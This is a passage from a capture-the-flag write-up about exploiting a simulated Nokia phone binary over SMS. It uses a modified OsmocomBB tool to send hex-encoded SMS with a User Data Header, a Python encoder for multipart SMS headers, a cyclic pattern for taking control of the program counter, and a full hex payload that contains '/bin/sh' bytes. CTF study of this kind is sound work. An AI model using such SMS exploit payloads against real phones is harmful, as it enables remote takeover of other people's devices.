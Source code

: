 Full patch is available
[`here`]({{"https://mhaceroni.it/assets/code/newphonewhodis_writeup/osmocombb_path.diff"|absolute_url}}).
The interesting stuff is:

Be able to specify that the packet contains a UDH header.  
```c  
  sms->ud_hdr_ind = atoi((char *)argv[1]);  
```  
Specify that the data was 8bit encoded and not 7bit encoded.  
```c  
  sms->data_coding_scheme = 4;  
```  
Write sms as hex encoded so that I could you any value.  
```c  
  char * text_hex = argv_concat(argv, argc, 3);  
  char * text = hex2b(text_hex);  
  int text_len = strlen(text_hex) / 2;  
```

The result is a command like this where I specify that UHD is included and the
sms is hex encoded:

```bash  
smshex one 1 9999
05000317010a170069350100921a05b46b2a0100247017006935010069460b276b2a0100287017006935010001dfc0466b2a01002c70170069350100020012346b2a01003070170069350100253b24286b2a010034701700693501002f62696e6b2a010038701700693501002f7368006b2a01003c7017006935010001701700531f0100  
```

## The attack  
Now we can communicate via SMS with the phone and we also have a
vulnerability.

I wrote a small python function to encode SMSes:

```python  
def encode_part(ref_num, data, CSMS=0x17, max_part=3):  
   assert max_part <= 3  
   header = "\x05\x00\x03" + chr(CSMS) + chr(max_part) + chr(ref_num)  
   return header+data  
```

We can craft few SMSes with payloads from the `cyclic` command of pwntools and
find how to control the PC.

```python  
c =
"aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwa"

print "smshex one 1 9999",encode_part(4, c[:134], max_part=1).encode("hex")  
```

Now that we control PC challenge is solved right?

Actually was not so easy. Even if it was a nokia phone, in reality, it was a
binary running on a Linux distro. So it had NX bit and ASLR enable. The binary
was not PIE.
